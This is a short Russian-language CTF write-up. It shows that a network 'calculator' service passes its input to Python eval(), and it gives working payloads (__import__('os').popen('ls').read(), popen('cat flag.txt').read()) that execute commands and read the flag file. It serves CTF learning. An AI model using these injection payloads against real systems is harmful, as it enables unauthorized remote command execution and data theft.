

# Калькулятор: Write-up #
Попытки открыть ip в браузере не увенчались успехом, так что попробуем открыть его через `netcat`:
    
    $ nc 62.173.140.174 10000

Довольно неплохой сделан калькулятор, вот только больно он похож на интерпретатор Python. Если протестировать несколько функций, по типу `print()` или `help()`, то по тем `None`, что возвращается этими функциями можно понять, что всё, что вводится пользователем проходит через функцию `eval()`.

Для всего, что связано с `python (pyjails)` крайне советую первым делом лезть [сюда](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes) (добавьте сайт в закладочки, ОЧЕНЬ полезный ресурс на CTF).
Здесь есть много (но не все) методов обходов различных фильтров, RCE и т.д.

Попробуем кое-что оттуда, что не принтит результат, а возвращает его:

    >>> __import__("os").uname()
    posix.uname_result(sysname='Linux', nodename='966d3b943242', release='5.4.0-144-generic', version='#161-Ubuntu SMP Fri Feb 3 14:49:04 UTC 2023', machine='x86_64')

У нас в распоряжении теперь есть модуль `os`, в теории - полноценный RCE. В теории - потому, что функция `system("command")` сама по себе возвращает не вывод команды, а код выполнения (подробнее [тут](https://docs-python.ru/standart-library/modul-os-python/funktsija-system-modulja-os/)).
В нашем случае - 0, т.е. успех. Так что необходимо команды пропускать не через `system()`, а через `popen("command").read()`. Здесь уже будет читаться и возвращаться поток вывода.

    >>> __import__("os").popen("ls").read()
    flag.txt
    requirements.txt
    service.py

Ага, осталось лишь вывести файлик:
    
    >>> __import__("os").popen("cat flag.txt").read()
    CODEBY{************}

P.S. Кому интересно, я скачал [service.py](writeup/service.py), так что кто хочет посмтореть исходники сервера - милости прошу =)

P.P.S. Надеюсь, организаторы меня за это на эшафоте не взвесят XD
